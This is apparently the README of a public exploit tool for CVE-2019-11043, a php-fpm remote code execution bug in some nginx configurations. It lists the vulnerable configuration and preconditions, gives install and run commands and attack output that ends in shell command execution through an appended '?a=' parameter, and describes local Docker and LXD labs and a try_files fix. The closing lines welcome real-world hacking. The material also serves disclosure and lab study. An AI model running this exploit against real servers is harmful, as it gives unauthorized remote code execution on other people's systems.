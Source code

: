 # PHuiP-FPizdaM

## What's this

This is an exploit for a bug in php-fpm (CVE-2019-11043). In certain nginx + php-fpm configurations, the bug is possible to trigger from the outside. This means that a web user may get code execution if you have vulnerable config (see [below](#the-full-list-of-preconditions)).

## What's vulnerable

If a webserver runs nginx + php-fpm and nginx have a configuration like

```
location ~ [^/]\.php(/|$) {
  ...
  fastcgi_split_path_info ^(.+?\.php)(/.*)$;
  fastcgi_param PATH_INFO       $fastcgi_path_info;
  fastcgi_pass   php:9000;
  ...
}
```

which also lacks any script existence checks (like `try_files`), then you can probably hack it with this sploit.

#### The full list of preconditions
1. Nginx + php-fpm, `location ~ [^/]\.php(/|$)` must be forwarded to php-fpm (maybe the regexp can be stricter, see [#1](https://github.com/neex/phuip-fpizdam/issues/1)).
2. There must be a `PATH_INFO` variable assignment via statement `fastcgi_param PATH_INFO $fastcgi_path_info;`. Also `SCRIPT_FILENAME` must be set using `fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;` (there might be a constant path instead of `$document_root`). At first, we thought these are always present in the `fastcgi_params` file, but it's not true.
3. There must be a way to set `PATH_INFO` to an empty value. This exploit assumes that `fastcgi_split_path_info` directive is there and contains a regexp starting with `^` and ending with `$`, so it tries to break the regexp with a newline character.
4. This particular exploit assumes that `PATH_INFO` is set after `REQUEST_URI` in the config.
5. No file existence checks like `try_files $uri =404` or `if (-f $uri)`. If Nginx drops requests to non-existing scripts before FastCGI forwarding, our requests never reach php-fpm. Adding this is also the easiest way to patch.
6. This exploit works only for PHP 7+, but the bug itself is present in earlier versions (see [below](#about-php5)).

## Isn't this known to be vulnerable for years?

A long time ago php-fpm didn't restrict the extensions of the scripts, meaning that something like `/avatar.png/some-fake-shit.php` could execute `avatar.png` as a PHP script. This issue was fixed around 2010.

The current one doesn't require file upload, works in the most recent versions (until the fix has landed), and, most importantly, the exploit is much cooler.

## How to run

Install it using
```
go get github.com/neex/phuip-fpizdam
```

If you get strange compilation errors, make sure you're using go >= 1.13. Run the program using `phuip-fpizdam [url]` (assuming you have the `$GOPATH/bin` inside your `$PATH`, otherwise specify the full path to the binary). Good output looks like this:

```
2019/10/01 02:46:15 Base status code is 200
2019/10/01 02:46:15 Status code 500 for qsl=1745, adding as a candidate
2019/10/01 02:46:15 The target is probably vulnerable. Possible QSLs: [1735 1740 1745]
2019/10/01 02:46:16 Attack params found: --qsl 1735 --pisos 126 --skip-detect
2019/10/01 02:46:16 Trying to set "session.auto_start=0"...
2019/10/01 02:46:16 Detect() returned attack params: --qsl 1735 --pisos 126 --skip-detect <-- REMEMBER THIS
2019/10/01 02:46:16 Performing attack using php.ini settings...
2019/10/01 02:46:40 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/01 02:46:40 Trying to cleanup /tmp/a...
2019/10/01 02:46:40 Done!
```

After this, you can start appending `?a=<your command>` to all PHP scripts (you may need multiple retries).

Alternatively, you can use a [docker image](https://github.com/ypereirareis/docker-CVE-2019-11043) to run the exploit:

```bash
docker run --rm ypereirareis/cve-2019-11043 [url]
```

## Playground environments

### Using Docker

If you want to reproduce the issue or play with the exploit locally through Docker, do the following:

1. Clone this repo and go to the `reproducer` directory.
2. Create the docker image using `docker build -t reproduce-cve-2019-11043 .`. It takes a long time as it internally clones the php repository and builds it from the source. However, it will be easier this way if you want to debug the exploit. The revision built is the one right before the fix.
2. Run the docker using `docker run --rm -ti -p 8080:80 reproduce-cve-2019-11043`.
3. Now you have http://127.0.0.1:8080/script.php, which is an empty file.
4. Run the exploit using `phuip-fpizdam http://127.0.0.1:8080/script.php`
5. If everything is ok, you'll be able to execute commands by appending `?a=` to the script: http://127.0.0.1:8080/script.php?a=id. Try multiple times as only some of php-fpm workers are infected.

### Using LXD system containers

If you want to reproduce the issue or play with the exploit locally through LXD, do the following:

1. Create two system containers, `vulnerable` and `attacker`. You can use the `ubuntu:18.04` container image for both containers.
2. In the `vulnerable` container, install `nginx` and `php-fpm`. Configure the server block as [this configuration](https://gist.github.com/simos/9a87bedfcd720ccda0cff54fd06ddd0f). Create an empty file `/var/www/html/index.php`.
3. In the `attacker` container, install the Go language (`sudo snap install go --classic`), clone this repository, and run `go build` in the directory of the repository.
4. Run the attack as follows: `./phuip-fpizdam http://vulnerable.lxd/index.php`. Try multiple types in order to infect all php-fpm workers. 

For more details instructions, see [Testing CVE-2019-11043 (php-fpm security vulnerability) with LXD system containers](https://blog.simos.info/testing-cve-2019-11043-php-fpm-security-vulnerability-with-lxd-system-containers/).

## About PHP5

The buffer underflow in php-fpm is present in PHP version 5. However, this exploit makes use of an optimization used for storing FastCGI variables, [_fcgi_data_seg](https://github.com/php/php-src/blob/5d6e923/main/fastcgi.c#L186). This optimization is present only in php 7, so this particular exploit works only for php 7. There might be another exploitation technique that works in php 5.

## Credits

Original anomaly discovered by [d90pwn](https://twitter.com/d90pwn) during Real World CTF. Root clause found by me (Emil Lerner) as well as the way to set php.ini options. Final php.ini options set is found by [beched](https://twitter.com/ahack_ru).

## License

This exploit is distributed under terms of [MIT License](LICENSE.txt).

Refrain from doing any damage with this exploit. But if you really hack something with this thing, I will be happy.
